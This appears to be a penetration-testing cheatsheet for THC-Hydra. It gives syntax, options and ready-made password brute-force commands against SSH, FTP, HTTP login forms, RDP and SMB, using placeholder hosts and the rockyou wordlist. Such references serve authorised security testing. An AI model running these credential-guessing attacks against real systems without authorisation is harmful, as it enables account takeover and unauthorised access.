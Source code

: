 # THC-Hydra Cheatsheet

## Basics

### Help

```bash
hydra -h
```

---

## Syntax

```bash
hydra [OPTIONS] -L [userlist] -P [passlist] [PROTOCOL]://[TARGET]
```

* `-L` : Path to file with list of usernames
* `-l` : Single username
* `-P` : Path to file with list of passwords
* `-p` : Single password
* `-s` : Port (if non-default)
* `-t` : Number of parallel connections (default: 16)
* `-V` : Verbose mode (shows every attempt)
* `-f` : Exit after the first valid login

---

## Examples

### SSH

```bash
hydra -l root -P passwords.txt MACHINE_IP -t 4 ssh
```

### FTP

```bash
hydra -l user -P passlist.txt ftp://MACHINE_IP
```

### HTTP POST Form (Custom Login Form)

```bash
hydra -L users.txt -P passwords.txt 192.168.1.100 http-post-form \
"/login.php:username=^USER^&password=^PASS^:F=incorrect"
```

* Adjust the URL and failure condition (`F=`) based on form behavior.

### RDP (Remote Desktop Protocol)

```bash
hydra -t 4 -V -f -L users.txt -P passwords.txt rdp://192.168.1.100
```

### SMB

```bash
hydra -L users.txt -P passwords.txt smb://192.168.1.100
```

---

## Useful Options

| Option | Description                          |
| ------ | ------------------------------------ |
| `-V`   | Show login+password for each attempt |
| `-vV`  | Very verbose, prints connection info |
| `-f`   | Quit after first found combo         |
| `-s`   | Specify port (e.g., `-s 8080`)       |
| `-o`   | Output results to a file             |

---

## Supported Services (Partial List)

* `ssh` – Secure Shell
* `ftp` – File Transfer Protocol
* `http`, `https`, `http-get`, `http-post-form` – Web logins
* `rdp` – Remote Desktop Protocol
* `smb` – Windows File Sharing
* `smtp`, `pop3`, `imap` – Email protocols
* `telnet`
* `vnc`

Run `hydra -U` to see the full list of supported modules.

---

## Tips for Effective Use

* Avoid using `-t` (tasks/parallel threads) too high, especially on slower or rate-limited services.
* Always test with a small user/password list to verify syntax before large brute-force runs.
* Monitor network usage — Hydra is noisy and can trigger IDS/IPS.

---

## Logging Results

```bash
hydra -L users.txt -P passwords.txt -o results.txt ssh://192.168.1.100
```

---

## Wordlists

Try using built-in or custom wordlists:

```bash
/usr/share/wordlists/rockyou.txt
```

---

## References

* [Hydra GitHub Repository](https://github.com/vanhauser-thc/thc-hydra)
* [THC Hydra Usage Guide (HackTricks)](https://book.hacktricks.xyz/pentesting/password-cracking/thc-hydra)
* [SecLists – User/Password Wordlists](https://github.com/danielmiessler/SecLists)

